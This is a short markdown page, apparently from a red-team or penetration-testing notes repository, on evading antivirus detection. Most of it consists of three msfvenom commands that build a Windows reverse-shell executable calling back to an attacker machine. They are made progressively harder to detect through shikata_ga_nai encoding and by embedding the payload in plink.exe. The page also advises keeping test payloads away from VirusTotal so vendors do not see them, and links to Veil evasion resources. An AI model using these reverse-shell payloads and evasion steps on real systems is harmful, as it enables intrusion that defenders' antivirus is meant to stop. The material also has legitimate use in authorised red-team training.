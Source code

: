 # Antivirus evasion

The easiest way to test payloads is to upload them to [VirusTotal](https://www.virustotal.com/#/home/upload). They share uploads with anti-malware companies so if you're planning to use a payload in a red team operation, it might be better to test it in a VM with your target network's antivirus installed.

Most antivirus software will detect unencoded payloads like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -o evil.exe
```
Even when a payload is encoded with [shikata ga nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) it is still generally detectable by antivirus because the executable template is recognized:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -o evil.exe
```
Embedding the shellcode in a Windows PE executable is a little less detectable: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
evil.exe
```
## Further reading
* [Antivirus evasion reconstructed: Veil 3.0](https://www.fireeye.com/blog/threat-research/2017/03/_antivirus_evasionr.html)
* [Evading antivirus without being a wizard](https://jordanpotti.com/2016/12/14/evading-anti-virus-without-being-a-wizard/)
* [Veil tutorial](https://www.veil-framework.com/veil-tutorial/)
